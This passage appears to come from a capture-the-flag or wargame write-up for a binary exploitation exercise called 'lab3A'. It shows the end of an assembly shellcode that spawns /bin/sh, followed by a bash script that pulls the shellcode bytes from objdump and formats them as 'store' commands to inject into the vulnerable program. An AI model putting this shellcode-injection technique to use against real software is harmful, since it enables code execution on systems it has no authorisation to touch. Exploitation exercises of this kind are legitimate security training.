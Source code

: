 ```cpp
	nop
	int 0x80

LABEL2:
	call LABEL1
	nop
	nop
	nop
	nop
	.ascii "/bin/shX"
```
Finally, get crafted input by this script:
```bash
#!/bin/sh

####################################
#
# Craft input to pwn lab3A
# A1phaZer0: ini.universe#gmail.com
# 2017.12.01
#
####################################

j=0
k=0
echo "store"
printf "%u\n" $1
echo 109
for i in $( objdump -d -M intel jmpshell | grep "^ " | cut -f2 ); do

        if [[ $(( j % 4 ))  -eq 0 ]]; then
                OUT=0x$OUT
                if [[ $OUT != 0x && $(( k % 3 )) -ne 0 ]]; then
                        echo "store"
                        printf "%u\n" $OUT
                        printf "%u\n" $k
                fi
                OUT=
                (( k++ ))

        fi
        (( j++ ))
        OUT="$i"$OUT
done

echo "store"
printf "%u\n" 0x$OUT
printf "%u\n" $k
echo "quit"
```
**NOTE:**  
* From [The GNU C Programming Tutorial](http://crasseux.com/books/ctutorial/Environment-variables.html):  
